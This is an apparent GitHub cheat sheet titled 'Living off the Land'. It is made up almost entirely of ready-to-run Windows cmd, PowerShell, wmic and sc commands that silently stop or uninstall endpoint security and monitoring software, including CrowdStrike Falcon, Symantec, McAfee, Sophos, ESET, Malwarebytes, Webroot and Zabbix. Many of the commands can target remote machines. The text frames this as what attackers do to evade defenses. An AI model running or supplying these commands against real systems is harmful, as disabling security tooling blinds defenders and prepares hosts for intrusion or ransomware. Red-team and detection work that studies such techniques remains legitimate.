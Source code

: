 # Living off the Land

TODO: Convert command prompt to Powershell cmdlets

## 01 - Uninstall Third-Party Endpoints

### 1.1 - MalwareBytes

#### 1.1.1 - Command Prompt

```
C:\> cmd.exe /c "C:\Program Files\Malwarebytes\Anti-Malware\unins001.exe" /silent /noreboot
```

## 02 - Disable Third-Party Endpoints

### 2.1 - CrowdStrike

Command Prompt

```
C:\> net stop "CrowdStrike Falcon Sensor Service"
```

Powershell

```
PS C:\> Get-Service -ComputerName <IP> -Name "CrowdStrike Falcon Sensor Service" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "CrowdStrike Falcon Sensor Service")

PS C:\> icm -computername <IP> -scriptblock {cmd /c "net stop \"CrowdStrike Falcon Sensor Service\""}
```

### 2.2 - Symantec

Command Prompt

```
C:\> net stop "Symantec Endpoint Protection"

C:\> sc \\<IP> stop "Symantec Endpoint Protection"
```

Powershell

```
PS C:\> Get-Service -ComputerName <IP> -Name "Symantec Endpoint Protection" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "Symantec Endpoint Protection")

PS C:\> icm -computername <IP> -scriptblock {cmd /c "net stop \"Symantec Endpoint Protection\""}
```

### 2.3 - Zabbix

Command Prompt

```
C:\> net stop "Zabbix Agent"

C:\> sc \\<IP> stop "Zabbix Agent"
```

Powershell

```
PS C:\> Get-Service -ComputerName <IP> -Name "Zabbix Agent" | Stop-Service -Force

PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "Zabbix Agent")

PS C:\> icm -computername <IP> -scriptblock {cmd /c "net stop \"Zabbix Agent\""}
```

## 03 - Uninstall Endpoints

### 3.1 - Syntax

#### 3.1.1 - Command Prompt

```
C:\> wmic product get name /value
```

Note: Some AVs particular anti-malware that is installed in windows taken measures to prevent attackers to uninstall it. But not all of them. When uninstalling the software you must have **administrative privileges**.

```
C:\> wmic product where name="<software_name>" call uninstall /nointeractive
```

#### 3.1.2 - Powershell

Convert the commands to cmdlets

```
Get-WmiObject
Get-CimAssociatedInstance
Get-CimInstance
Get-CimClass
Get-CimSession
```

### 3.2 - ESET

#### 3.2.1 - Command Prompt

```
C:\> wmic product where name="ESET File Security" call uninstall /nointeractive
```

### 3.3 - McAfee

#### 3.3.1 - Command Prompt

```
C:\> wmic product where name="McAfee VirusScan Enterprise" call uninstall /nointeractive

C:\> wmic product where name="McAfee Agent" call uninstall /nointeractive

C:\> wmic product where name="McAfee DLP Endpoint" call uninstall /nointeractive

C:\> wmic product where name="McAfee Endpoint Security Platform" call uninstall /nointeractive

C:\> wmic product where name="McAfee Endpoint Security Threat Prevention" call uninstall /nointeractive

C:\> wmic product where name="McAfee SiteAdvisor Enterprise" call uninstall /nointeractive
```

### 3.4.1 - MalwareBytes

#### 3.4.1.1 - Command Prompt

```
C:\> wmic product where name="Malwarebytes Managed Client" call uninstall /nointeractive
```

### 3.5.1 - AVG

#### 3.5.1.1 - Command Prompt

```
C:\> wmic product where name="AVG 2015" call uninstall /nointeractive
```

### 3.6 - Webroot

#### 3.6.1 - Command Prompt

```
C:\> wmic product where name="Webroot SecureAnywhere" call uninstall /nointeractive
```

### 3.7 - Symantec

#### 3.7.1 - Command Prompt

```
C:\> wmic product where name="Symantec Endpoint Protection" call uninstall /nointeractive

C:\> wmic product where name="Symantec Backup Exec Remote Agent for Windows" call uninstall /nointeractive
```

### 3.8 - Sophos

#### 3.8.1 - Command Prompt

```
C:\> wmic product where name="Sophos System Protection" call uninstall /nointeractive

C:\> wmic product where name="Sophos AutoUpdate" call uninstall /nointeractive

C:\> wmic product where name="Sophos Remote Management System" call uninstall /nointeractive
```

---
## References

- [LOFLCAB: Win32_Product](https://lofl-project.github.io/loflcab/WMI/Win32_Product/)